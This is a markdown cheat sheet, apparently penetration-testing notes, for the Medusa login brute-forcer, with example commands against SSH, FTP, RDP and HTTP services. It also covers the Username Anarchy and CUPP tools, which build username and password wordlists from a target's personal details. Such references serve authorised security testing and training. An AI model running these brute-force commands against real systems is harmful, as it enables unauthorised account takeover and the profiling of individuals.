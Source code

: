 ### Medusa
- Fast, massively parallel, modular login brute-forcer  
- Supports a wide array of services  

```bash
medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module [OPT]
```

| Medusa Module | Service/Protocol       | Description                                              | Example Command |
|---------------|------------------------|----------------------------------------------------------|-----------------|
| ssh           | Secure Shell (SSH)     | Brute force SSH login for the admin user.                | `medusa -h 192.168.1.100 -u admin -P passwords.txt -M ssh` |
| ftp           | File Transfer Protocol | Brute force FTP with multiple usernames and passwords using 5 parallel threads. | `medusa -h 192.168.1.100 -U users.txt -P passwords.txt -M ftp -t 5` |
| rdp           | Remote Desktop Protocol | Brute force RDP login.                                  | `medusa -h 192.168.1.100 -u admin -P passwords.txt -M rdp` |
| http-get      | HTTP Web Services      | Brute force HTTP Basic Authentication.                   | `medusa -h www.example.com -U users.txt -P passwords.txt -M http -m GET` |
| ssh           | Secure Shell (SSH)     | Stop after the first valid SSH login is found.           | `medusa -h 192.168.1.100 -u admin -P passwords.txt -M ssh -f` |

---

## Custom Wordlists

**Username Anarchy** generates potential usernames based on a target's name.

| Command | Description |
|---------|-------------|
| `username-anarchy Jane Smith` | Generate possible usernames for "Jane Smith" |
| `username-anarchy -i names.txt` | Use a file (names.txt) with names for input. Can handle space, CSV, or TAB delimited names. |
| `username-anarchy -a --country us` | Automatically generate usernames using common names from the US dataset. |
| `username-anarchy -l` | List available username format plugins. |
| `username-anarchy -f format1,format2` | Use specific format plugins for username generation (comma-separated). |
| `username-anarchy -@ example.com` | Append @example.com as a suffix to each username. |
| `username-anarchy --case-insensitive` | Generate usernames in case-insensitive (lowercase) format. |

---

**CUPP (Common User Passwords Profiler)** creates personalized password wordlists based on gathered intelligence.

| Command | Description |
|---------|-------------|
| `cupp -i` | Generate wordlist based on personal information (interactive mode). |
| `cupp -w profiles.txt` | Generate a wordlist from a predefined profile file. |
| `cupp -l` | Download popular password lists like rockyou.txt. |

---
